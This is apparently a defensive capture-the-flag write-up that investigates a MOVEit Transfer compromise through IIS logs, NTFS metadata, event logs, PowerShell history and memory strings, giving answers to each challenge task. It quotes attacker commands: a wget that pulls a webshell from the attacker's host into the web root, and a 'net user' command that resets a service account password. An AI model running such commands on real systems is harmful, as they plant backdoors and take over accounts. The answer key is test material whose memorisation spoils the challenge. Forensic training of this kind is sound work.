I Like To
Overview
I Like To is a Blue Team Sherlock focused on investigating a MOVEit Transfer compromise. The analysis combines IIS web logs, NTFS metadata, Windows Security and Terminal Services event logs, PowerShell history, MOVEit database artifacts, and memory strings to reconstruct how the attacker enumerated the server, uploaded webshells, changed a service account password, accessed the host remotely, and interacted with the deployed webshell.

Evidence and Tools
The investigation used the provided triage directory and memory dump:
I-like-to-27a787c5.vmem
Triage\Tools and artifacts used during the investigation:
- IIS logs for webshell and attacker User-Agent activity.
- MFTECmd for parsing NTFS
$MFTmetadata. - EvtxECmd for parsing Windows Event Logs.
- PowerShell for searching CSV, logs, and history files.
- strings for extracting webshell and password artifacts from memory.
Task 1 - Uploaded ASPX Webshell
Question: Name of the ASPX webshell uploaded by the attacker?
Because the scenario referenced a MOVEit Transfer compromise, the first useful pivot was the IIS web server
logs. MOVEit exploitation campaigns commonly involve malicious ASP.NET webshells, so I searched the triage
artifacts for .aspx references.
grep -Ri ".aspx" iliketo/Triage/
The relevant log file was:
Triage/uploads/auto/C%3A/inetpub/logs/LogFiles/W3SVC2/u_ex230712.logInside that log, the suspicious request was:
2023-07-12 11:24:47 10.10.0.25 POST /move.aspx - 443 - 10.255.254.3 Mozilla
/move.aspx using an HTTP POST request.Answer:
move.aspxTask 2 - Attacker IP Address
Question: What was the attacker's IP address?
The same IIS log entry identifies both the victim web server and the remote client. In this request,
10.10.0.25 is the victim server and 10.255.254.3 is the client interacting with
the malicious webshell.
2023-07-12 11:24:47 10.10.0.25 POST /move.aspx - 443 - 10.255.254.3 MozillaAnswer:
10.255.254.3Task 3 - Initial Attack User-Agent
Question: What user agent was used to perform the initial attack?
To identify the User-Agent used during exploitation, I searched the IIS logs for the attacker IP.
grep -Ri "10.255.254.3" iliketo/Triage/uploads/auto/C%3A/inetpub/logs/LogFiles/W3SVC2/

Ruby User-Agent.The activity showed three phases:
- Nmap scanning with the Nmap Scripting Engine User-Agent.
- Browser interaction using Firefox on Linux.
- Initial MOVEit exploitation requests using
Ruby.
Answer:
RubyTask 4 - ASPX Webshell Upload Time
Question: When was the ASPX webshell uploaded by the attacker? (UTC)
To confirm the upload time, I parsed the NTFS $MFT and searched for move.aspx.
.\MFTECmd.exe -f 'C:\Users\moree39\Downloads\Triage\uploads\ntfs\%5C%5C.%5CC%3A\$MFT' --json 'C:\Temp\MFTJson'
Then I searched the parsed output for the malicious file:
Import-Csv 'C:\Temp\MFTOut\20260506190952_MFTECmd_$MFT_Output.csv' | Where-Object {$_.FileName -like '*move.aspx*'} | Format-List
move.aspx showed the filesystem creation timestamp.The relevant timestamp was:
Created0x10 : 2023-07-12 11:24:30Answer:
12/07/2023 11:24:30 UTCTask 5 - Failed ASP Webshell Size
Question: The attacker uploaded an ASP webshell which did not work. What is its filesize in bytes?
The failed webshell was moveit.asp. Even if a file is deleted or never works correctly, NTFS
metadata can still preserve its name, timestamps, and size in the $MFT.
Parse the MFT to CSV:
.\MFTECmd.exe -f 'C:\Users\moree39\Downloads\Triage\uploads\ntfs\%5C%5C.%5CC%3A\$MFT' --csv 'C:\Temp\MFTOut'Search for the failed ASP webshell:
Import-Csv 'C:\Temp\MFTOut\20260506190952_MFTECmd_$MFT_Output.csv' | Where-Object {$_.FileName -like '*moveit.asp*'} | Format-List
moveit.asp shows the failed ASP webshell filesize.The output showed:
FileName : moveit.asp
FileSize : 1362This matched the attack flow: the attacker first attempted moveit.asp, then switched to the working move.aspx webshell.
Answer:
1362 bytesTask 6 - Initial Enumeration Tool
Question: Which tool did the attacker use to initially enumerate the vulnerable server?
The IIS logs clearly showed the Nmap Scripting Engine User-Agent:
Mozilla/5.0 (compatible; Nmap Scripting Engine; https://nmap.org/book/nse.html)This indicates the attacker used Nmap, specifically NSE scripts, to enumerate the target web server before exploitation.
Answer:
NmapTask 7 - Service Account Password Reset Time
Question: We suspect the attacker may have changed the password for our service account. Please confirm the time this occurred (UTC).
The target service account was:
moveitsvcPassword reset activity is recorded in Windows Security logs with Event ID 4724.
I created variables to make the investigation easier:
$triage = "C:\Users\moree39\Downloads\Triage"
$logs = "$triage\uploads\auto\C%3A\Windows\System32\winevt\Logs"
$sec = "$logs\Security.evtx"
$tools = "C:\Users\moree39\Desktop\Tools\Get-ZimmermanTools-master\net9"
$out = "C:\Temp\EvtxOut"
Parse the Security event log:
& "$tools\EvtxeCmd\EvtxECmd.exe" -f $sec --csv $out
Search for password reset events:
Import-Csv "C:\Temp\EvtxOut\20260508091243_EvtxECmd_Output.csv" | Where-Object { $_.EventId -eq 4724 } | Format-List TimeCreated, EventId, PayloadData1
moveitsvc account.Relevant event:
TimeCreated : 2023-07-12 11:09:27
EventId : 4724
Target : MOVER\moveitsvcAnswer:
12/07/2023 11:09:27 UTCTask 8 - Remote Access Protocol
Question: Which protocol did the attacker utilize to remote into the compromised machine?
I first checked Security.evtx for successful logon events and possible Logon Type 10 activity,
then pivoted to the dedicated Remote Desktop event logs.
Parse the RDP-related operational log:
& "$tools\EvtxeCmd\EvtxECmd.exe" -f "$logs\Microsoft-Windows-TerminalServices-RemoteConnectionManager%254Operational.evtx" --csv "C:\Temp\WinRMOut"
Filter for Event ID 1149, which indicates successful Remote Desktop authentication:
Get-ChildItem "C:\Temp\RDPOut\*.csv" | ForEach-Object {
Import-Csv $_.FullName
} | Where-Object { $_.EventId -eq 1149 } |
Format-List TimeCreated, EventId, PayloadData1, PayloadData2, PayloadData3
Answer:
RDPTask 9 - Remote Access Time
Question: Please confirm the date and time the attacker remotely accessed the compromised machine.
To reconstruct the RDP timeline, I parsed Terminal Services logs.
& "$tools\EvtxeCmd\EvtxECmd.exe" -f "$logs\Microsoft-Windows-TerminalServices-RemoteConnectionManager%254Operational.evtx" --csv "C:\Temp\RDPOut"
& "$tools\EvtxeCmd\EvtxECmd.exe" -f "$logs\Microsoft-Windows-TerminalServices-LocalSessionManager%254Operational.evtx" --csv "C:\Temp\RDPOut"
Filter the parsed events for the attack day:
Get-ChildItem "C:\Temp\RDPOut\*.csv" | ForEach-Object {
Import-Csv $_.FullName
} | Where-Object {
[datetime]$_.TimeCreated -ge [datetime]"2023-07-12 00:00:00" -and
[datetime]$_.TimeCreated -lt [datetime]"2023-07-13 00:00:00"
} | Sort-Object TimeCreated | Format-Table TimeCreated, EventId, PayloadData1
The relevant sequence was:
11:11:13 Event 261 -> RDP-Tcp connection
11:11:16 Event 1149 -> Successful RDP authentication
11:11:18 Event 41 -> Remote interactive session started
11:11:19 Event 21 -> Session logon succeeded
11:11:19 Event 22 -> Desktop/session fully loadedHTB accepted the active RDP session start, represented by Event ID 41.
Answer:
12/07/2023 11:11:18 UTCTask 10 - Webshell Access User-Agent
Question: What was the useragent that the attacker used to access the webshell?
I searched the IIS log for requests to move.aspx.
Select-String -Path "$triage\uploads\auto\C%3A\inetpub\logs\LogFiles\W3SVC2\u_ex230712.log" -Pattern "move.aspx"
Answer:
Mozilla/5.0+(X11;+Linux+x86_64;+rv:102.0)+Gecko/20100101+Firefox/102.0Task 11 - Attacker Inst ID
Question: What is the inst ID of the attacker?
To identify the attacker's Inst ID, I pivoted from the attacker IP into the MOVEit database dump.
Select-String -Path "$triage\uploads\moveit.sql" -Pattern "10.255.254.3"
Inside the suspicious msg_post rows, the second value after the action was the Inst ID:
'msg_post',1234,...,'10.255.254.3',...,'Ruby'Answer:
1234Task 12 - Webshell Retrieval Command
Question: What command was run by the attacker to retrieve the webshell?
After searching logs for generic download keywords, I pivoted to a stronger artifact: the PowerShell
PSReadLine history for the compromised moveitsvc account.
Get-Content "$triage\uploads\auto\C%3A\Users\moveitsvc.WIN-LR8T2EF8VHM.002\AppData\Roaming\Microsoft\Windows\PowerShell\PSReadLine\ConsoleHost_history.txt"
The history showed the attacker moved into the MOVEit webroot and downloaded the webshell:
cd C:\MOVEitTransfer\wwwrootwget http://10.255.254.3:9001/move.aspx -OutFile move.aspxAnswer:
wget http://10.255.254.3:9001/move.aspx -OutFile move.aspxTask 13 - Webshell Title
Question: What string was found inside the <title> tag of the deployed webshell?
The webshell file itself was not present in the triage collection, so I searched the memory dump for unique webshell strings instead of relying only on disk artifacts.
strings -a I-like-to-27a787c5.vmem | grep -i -A30 -B10 "form name=\"cmd\""
The recovered HTML contained:
<title>awen asp.net webshell</title>Answer:
awen asp.net webshellTask 14 - Service Account Password
Question: What password did the attacker set for the moveitsvc account?
Since the attacker interacted with a webshell capable of executing commands, I searched the memory dump for
references to the moveitsvc account.
strings I-like-to-27a787c5.vmem | grep -i "moveitsvc"

moveitsvc.The recovered command was:
net user "moveitsvc" 5trongP4ssw0rdAnswer:
5trongP4ssw0rdAttack Chain
1. Attacker enumerates the MOVEit server with Nmap.
2. Exploitation activity uses Ruby against MOVEit endpoints.
3. The attacker uploads a failed ASP webshell: moveit.asp.
4. The attacker uploads and uses the working ASPX webshell: move.aspx.
5. The moveitsvc password is reset.
6. The attacker accesses the host through RDP.
7. PowerShell history shows the webshell retrieval command.
8. Memory analysis recovers webshell content and the service account password.Key Takeaways
- IIS logs are extremely useful for identifying webshell names, attacker IPs, and User-Agents.
- NTFS
$MFTmetadata can preserve file size and timestamp evidence even when files are not directly available. - Windows Event Logs provide reliable evidence for password reset and RDP activity.
- PowerShell history can expose attacker commands that may not be obvious in event logs.
- Memory strings can recover webshell content and command artifacts missed by disk-only analysis.